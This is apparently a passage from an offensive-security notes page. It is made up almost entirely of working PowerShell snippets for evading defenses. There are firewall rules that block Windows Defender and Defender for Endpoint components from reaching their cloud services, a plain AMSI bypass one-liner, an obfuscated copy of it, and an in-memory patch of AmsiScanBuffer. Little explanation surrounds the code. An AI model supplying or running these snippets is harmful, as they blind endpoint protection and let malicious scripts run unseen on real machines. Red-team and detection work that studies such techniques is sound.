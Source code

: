 {% hint style="warning" %}
Events are cached on the system, so as soon as traffic is established again, the floodgates will open.
{% endhint %}

{% code overflow="wrap" %}
```powershell
New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block

New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block

New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```
{% endcode %}

### AMSI Bypasses

{% hint style="info" %}
A classic resource: [https://amsi.fail/](https://amsi.fail/)
{% endhint %}

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
SeT-Item ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( TYpE ) ; ( Get-varIABLE ( ('1Q'+'2U') +'zX' ) -VaL )."AssEmbly"."GETTYPe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."getfiElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sETVaLUE"( ${nULl},${tRuE} );
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
$fzxhw = @" using System; using System.Runtime.InteropServices; public class fzxhw { [DllImport("kernel32")] public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); [DllImport("kernel32")] public static extern IntPtr LoadLibrary(string name); [DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr vilqbn, uint flNewProtect, out uint lpflOldProtect); } "@
Add-Type $fzxhw
$jvdnuxs = [fzxhw]::LoadLibrary("$(('ämsî'+'.dll').NORMALiZE(chAr+ChaR+ChAr+CHar+cHar) -replace ChAr+ChAR+cHAR+ChaR+chAr+CHar)") $ikbtnz = [fzxhw]::GetProcAddress($jvdnuxs, "$(cHAR+Char+chaR+cHAr+ChAr+Char+cHaR+chAR+chAr+cHAr+CHar+cHaR+CHaR+CHar)") $p = 0 [fzxhw]::VirtualProtect($ikbtnz, [uint32]5, 0x40, [ref]$p) $ovsj = "0xB8" $zahw = "0x57" $cfuu = "0x00" $ukxu = "0x07" $salu = "0x80" $yrkl = "0xC3" $xrnun = [Byte[]] ($ovsj,$zahw,$cfuu,$ukxu,+$salu,+$yrkl) [System.Runtime.InteropServices.Marshal]::Copy($xrnun, 0, $ikbtnz, 6)
```
{% endcode %}
